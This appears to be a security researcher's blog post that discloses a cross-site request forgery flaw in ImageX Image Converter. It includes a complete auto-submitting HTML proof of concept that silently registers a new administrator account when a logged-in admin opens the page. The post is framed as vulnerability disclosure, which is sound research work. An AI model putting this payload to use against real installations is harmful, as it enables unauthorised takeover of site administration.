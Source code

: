 ```yaml
---
date: 2025-03-10
layout: page
title: "Fifth Exploit Of The Month - ImageX Image Converter Cross Site Request Forgery"
tags: [vulnerability research, exploit development]
categories: [CVE, Exploit Development, Vulnerability Research]
image: https://i.pinimg.com/originals/02/6d/69/026d691bb4be01f856b93dd857a66744.gif
---
```

![img-description](https://i.pinimg.com/originals/02/6d/69/026d691bb4be01f856b93dd857a66744.gif)

Here's the exploit code
[ImageX Image Converter Cross Site Request Forgery](https://packetstorm.news/files/id/189625/)

<h2>CSRF Vulnerability in ImageX Image Converter: One Click to Take Control!</h2>

Hello cybersecurity lovers! Today, I want to share an exciting (and a bit dangerous) vulnerability I discovered: a Cross-Site Request Forgery (CSRF) flaw in ImageX Image Converter. Let’s break it down together and see how it works and what havoc it could cause.
<br><br>
<h2>What is CSRF?</h2>
Cross-Site Request Forgery is an attack where a hacker tricks a victim into unknowingly making unauthorized requests on their behalf. For instance, if a victim is logged into a site and clicks a malicious link, the attacker can perform actions with the victim’s credentials.

<h2>CSRF PoC:</h2>
```
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC</title>
</head>
<body>
    <h1>CSRF PoC - Add Admin</h1>
    <form id="csrfForm" action="https://localhost/mega-img-converter/actions/regadminsignupauth.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="name" value="pwned@pwned.com" />
        <input type="hidden" name="lastname" value="neci" />
        <input type="hidden" name="email" value="enis@neci.com" />
        <input type="hidden" name="password" value="kenan5" />
        <input type="hidden" name="confirmpassword" value="kenan5" />
        <input type="hidden" name="isajax" value="someValue" />
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```
<h2>What this does</h2>
If an admin is logged into ImageX and visits a malicious page containing the above code, a new admin account is created without their knowledge. From there, the attacker can log in, escalate their control, and potentially wreak havoc.

<h2>Conclusion</h2>
As penetration testers and researchers, finding and reporting these vulnerabilities is crucial. By disclosing and fixing issues like CSRF, we help create safer applications and protect users from potential exploitation. 
<br><br>
Until next time, happy hacking!
